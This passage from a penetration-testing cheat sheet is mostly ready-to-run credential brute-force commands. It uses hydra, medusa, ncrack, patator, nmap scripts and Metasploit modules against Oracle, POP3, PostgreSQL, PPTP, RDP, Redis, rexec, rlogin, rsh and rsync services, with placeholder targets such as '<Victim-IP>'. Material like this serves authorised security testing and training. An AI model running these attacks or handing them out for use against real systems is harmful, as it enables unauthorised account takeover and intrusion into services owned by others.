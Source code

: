 In order to use oracle_login with patator you need to install:

pip3 install cx_Oracle --upgrade

​Offline OracleSQL hash bruteforce (versions 11.1.0.6, 11.1.0.7, 11.2.0.1, 11.2.0.2, and 11.2.0.3):

 nmap -p1521 --script oracle-brute-stealth --script-args oracle-brute-stealth.sid=DB11g -n 10.11.21.30

POP

hydra -l USERNAME -P /path/to/passwords.txt -f <IP> pop3 -V
hydra -S -v -l USERNAME -P /path/to/passwords.txt -s 995 -f <IP> pop3 -V

PostgreSQL

hydra -L /root/Desktop/user.txt –P /root/Desktop/pass.txt <IP> postgres
medusa -h <IP> –U /root/Desktop/user.txt –P /root/Desktop/pass.txt –M postgres
ncrack –v –U /root/Desktop/user.txt –P /root/Desktop/pass.txt <IP>:5432
patator pgsql_login host=<IP> user=FILE0 0=/root/Desktop/user.txt password=FILE1 1=/root/Desktop/pass.txt
use auxiliary/scanner/postgres/postgres_login
nmap -sV --script pgsql-brute --script-args userdb=/var/usernames.txt,passdb=/var/passwords.txt -p 5432 <IP>

PPTP

You can download the .deb package to install from https://http.kali.org/pool/main/t/thc-pptp-bruter/​

sudo dpkg -i thc-pptp-bruter*.deb #Install the package
cat rockyou.txt | thc-pptp-bruter –u <Username> <IP>

RDP 

ncrack -vv --user <User> -P pwds.txt rdp://<IP>
hydra -V -f -L <userslist> -P <passwlist> rdp://<IP>

Redis

msf> use auxiliary/scanner/redis/redis_login
nmap --script redis-brute -p 6379 <IP>
hydra –P /path/pass.txt <IP> redis

Rexec

hydra -l <username> -P <password_file> rexec://<Victim-IP> -v -V

Rlogin

hydra -l <username> -P <password_file> rlogin://<Victim-IP> -v -V

Rsh

hydra -L <Username_list> rsh://<Victim_IP> -v -V

​http://pentestmonkey.net/tools/misc/rsh-grind​
Rsync

nmap -sV --script rsync-brute --script-args userdb=/var/usernames.txt,passdb=/var/passwords.txt -p 873 <IP>
